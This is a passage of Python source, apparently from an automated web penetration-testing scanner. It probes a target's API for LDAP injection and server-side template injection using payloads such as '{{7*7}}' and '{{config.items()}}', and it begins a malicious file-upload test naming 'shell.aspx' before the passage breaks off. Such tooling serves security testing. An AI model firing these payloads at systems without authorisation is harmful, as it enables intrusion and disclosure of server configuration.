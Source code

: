 ```python
        ]
        
        search_url = urljoin(self.base_url, "/api/directory/search")
        
        for payload in ldap_payloads:
            response = self.session.get(search_url, params={'query': payload})
            
            if any(indicator in response.text.lower() for indicator in 
                   ['ldap', 'distinguished name', 'objectclass']):
                
                self.findings.append({
                    'type': 'LDAP Injection',
                    'severity': 'High',
                    'description': 'LDAP injection in directory search',
                    'proof_of_concept': f'GET {search_url}?query={payload}',
                    'impact': 'Directory information disclosure'
                })
                break
                
        # Test Server-Side Template Injection (SSTI)
        ssti_payloads = [
            "{{7*7}}",
            "${7*7}",
            "<%=7*7%>",
            "{{config.items()}}",
            "${{7*7}}",
            "#{7*7}"
        ]
        
        template_endpoints = [
            "/api/template/render",
            "/api/email/preview",
            "/api/report/generate"
        ]
        
        for endpoint in template_endpoints:
            for payload in ssti_payloads:
                response = self.session.post(
                    urljoin(self.base_url, endpoint),
                    json={'template': payload}
                )
                
                # Check if template was executed (7*7=49)
                if '49' in response.text:
                    self.findings.append({
                        'type': 'Server-Side Template Injection',
                        'severity': 'Critical',
                        'description': f'SSTI in {endpoint} with payload: {payload}',
                        'proof_of_concept': f'Template execution confirmed: {payload} = 49',
                        'impact': 'Remote code execution possible'
                    })
                    break
                    
    def test_file_upload_vulnerabilities(self):
        """Test file upload security"""
        print("Testing file upload vulnerabilities")
        
        upload_url = urljoin(self.base_url, "/api/files/upload")
        
        # Test malicious file uploads
        malicious_files = [
            {
                'filename': 'shell.aspx',
```